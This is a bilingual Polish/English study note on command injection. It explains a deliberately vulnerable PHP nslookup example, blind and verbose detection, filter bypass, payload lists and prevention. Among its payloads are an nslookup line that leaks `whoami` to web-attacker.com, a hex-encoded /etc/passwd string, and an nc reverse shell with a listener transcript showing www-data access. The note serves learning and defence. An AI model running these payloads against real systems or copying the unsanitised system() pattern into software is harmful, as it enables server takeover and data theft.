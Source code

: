 # Command Injection (Wstrzykiwanie polecenia)
Command injection (wstrzyknięcie polecenia) to rodzaj ataku bezpieczeństwa w systemach komputerowych, który polega na wprowadzeniu polecenia do aplikacji.  
Atak polega na tym, że aplikacja, zamiast odpowiednio filtrować dane wejściowe użytkownika, przekazuje je bezpośrednio do systemu operacyjnego lub środowiska wykonawczego, gdzie mogą zostać wykonane jako część polecenia systemowego.  

Warto zwrócić uwagę na "filozofie" danej technologii. Np. w językach takich jak Java tworzenie poleceń, które trzeba wywołać w systemie operacyjnym, jest dosyć nietypowe, można za pomocą klasy java.lang.Runtime, ale aplikacji Javy są projektowane z myślą o uruchamianiu w różnych OS, dlatego poleganie na dostępności funkcji określonych systemów operacyjnych byłoby sprzeczne z tą filozofią.  
Natomiast PHP, które jest zaprojektowane zgodnie z filozofią Uniksa, według której programy powinny wykonywać tylko jedno zadanie i komunikować się ze sobą poprzez strumienie tekstowe.  
Zatem aplikacje PHP często wywołują inne programy poprzez wiersz poleceń. Python i Ruby są często używane do tworzenia skryptów, dzi ęki czemu łatwo za ich pomocą wykonywać polecenia w OS.  

Więc ta luka w zabezpieczeniach wynika z faktu, że aplikacje często korzystają z funkcji języków programowania, takich jak PHP, Python i NodeJS, aby przesyłać dane do systemu operacyjnego maszyny i wykonywać w nim wywołania systemowe.
Przykład: Witryna, która wykonuje polecenie `nslookup` aby rozwiązywać nazwy domen i adresy IP.
```
<?php
    if (isset($_GET['domain'])) {
    echo ',pre.';
    $domain = $_GET['domain'];
    $lookup = system("nslookup {$domain}");
    echo($lookup);
    echo '</pre>';
  }
?>
```
Atak:  
`google.com && echo "HAXXED"`
Wysyłany jest parametr domain o wartość google.com + && echo "HAXXED".  
`&&` w Uniksie służą do łączenia osobnych poleceń. Ponieważ nie ma w kodzie mechanizmu ucieczki dla znaków kontrolnych w tym scenariuszu zostaną wykonane dwa polecenia:  
oczekiwane polecenie `nslookup`, które poszuka domeny google.com, a następnie wstrzyknięte zostanie polecenie `echo "HAXXED"`.  

## Exploiting Command Injection
Command injection can often be identified by analyzing an application's behavior, especially when user input is used to execute system commands. Shell operators like `;`, `&`, and `&&` can allow unintended command execution.

There are two main types of command injection:

**Blind command injection** – where the output is not directly visible, the  vulnerable application that does not return the output from the command within its HTTP response.  
**Verbose command injection or In-band command injection** – where the results are displayed.

### Detecting Blind Command Injection
Detection methods:  
1. **Time-based testing** – Using commands like `ping` or `sleep` to introduce a delay and observe if the application hangs.  
2. **Forced output** – Redirecting command output (`whoami`) to a file using `>` and then retrieving it with `cat`.  
3. **Using curl** – Sending data to and from an application to test for injection vulnerabilities. Eg: `curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami`  

Testing can be complex, as syntax varies between Linux and Windows, requiring experimentation.  
Examples:  
Trigger a time delay:  
`127.0.0.1 && sleep 10 &`
`127.0.0.1 && ping -c 10 127.0.0.1 &`  
Output the response of the command in the web root and retrieve the file directly using a browser:  
`127.0.0.1 & whoami > /var/www/static/whoami.txt &`  
Open an out-of-band channel back to a server you control:  
`127.0.0.1 & nslookup kgji2ohoyw.web-attacker.com &`
`127.0.0.1 & nslookup `whoami`.kgji2ohoyw.web-attacker.com &`

### Detecting Verbose Command Injection
**Verbose command injection** is easier to detect since the application provides visible output when commands are executed. For example, commands like `whoami` or `ping` display their results directly on the web application.  

### Bypassing Filters
Applications will employ numerous techniques in filtering and sanitising data that is taken from a  user's input. These filters will restrict you to specific payloads; however, we can abuse the logic behind an application to bypass these filters. For example, an application may strip out quotation marks; we can instead use the hexadecimal value of this to achieve the same result.

When executed, although the data given will be in a different format than what is expected, it can still be interpreted and will have the same result.  
`$payload=\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

### Useful payloads for testing:
Shell metacharacters: `&`, `&&`, `|`, `||`, `;`, `\n`, \`, `$()` for command concatenation.  
Useful payloads for testing:  
**Linux:**  
- `whoami` – Check the user under which the application is running.  
- `ls` – List directory contents to find valuable files.  
- `ping` / `sleep` – Test for blind command injection by causing delays.  
- `nc` – Spawn a reverse shell for deeper exploitation.  

**Windows:**  
- `whoami` – Identify the running user.  
- `dir` – List directory contents for useful files.  
- `ping` / `timeout` – Test for blind command injection by introducing delays.
___
## Establishing remote control
Let say that we have an application that  provides the ability to send ping packets to a host.  
The IP address or the host name is expected as input. 

![img.png](img/img_20.png)

This web page is susceptible to command injections, and we  can easily establish a remote connection
 to a remote computer. This way, shell access to the web server is possible. The following
 input sends a remote shell to the attacker’s IP address:  

`8.8.8.8;nc-n <IP attacker> 7777-e /bin/sh`  

 Before that, we must start a listener on port 7777:  
```
root@kali:~# nc-lnvp 7777
listening on [any] 7777 ...
connect to [192.168.218.164] from (UNKNOWN) [192.168.218.163]
whoami
 www-data
id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
 /var/www/html/websec/command_injection
```
Command injection attacks can be easily automated using tools such as [Commix](https://github.com/commixproject/commix)  
TODO dodać przykład zdalnej powłoki ze studiów biały pas
## **Preventing Command Injection**
Command injection can be mitigated through careful coding practices, such as limiting the use of dangerous functions and properly sanitizing user input.  

**Vulnerable Functions in PHP**  
Certain PHP functions, like `exec`, `passthru`, and `system`, execute commands directly in the shell. If user input is passed to these functions without validation, the application becomes vulnerable.  

**Input Sanitization**  
A key defense is **sanitizing user input**, ensuring only expected data formats are accepted. For example:  
- Restricting input to numbers only.  
- Removing special characters (`>`, `&`, `/`).  
- Using functions like `filter_input` to validate input types.  

**Przestrzeganie zasady najmniejszych uprawnień, aby ograniczyć skutki pomyślnego ataku.**
___
## Dodatkowe informacje
[command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)  
[Commix](https://github.com/commixproject/commix)
___
## Sources
- tryhackme, SQL Injection, https://tryhackme.com/r/room/sqlinjectionlm.
- M. McDonald, Bezpieczeństwo Aplikacji Internetowych dla Programistów, 2021 Helion S.A.
- M. Kofler et all, Hacking and Security The Comprehensive Guide to Penetration Testing and Cybersecurity, Rheinwerk Publishing 2023
- R. Khalil, Command Injection | Complete Guide, https://www.youtube.com/@RanaKhalil101.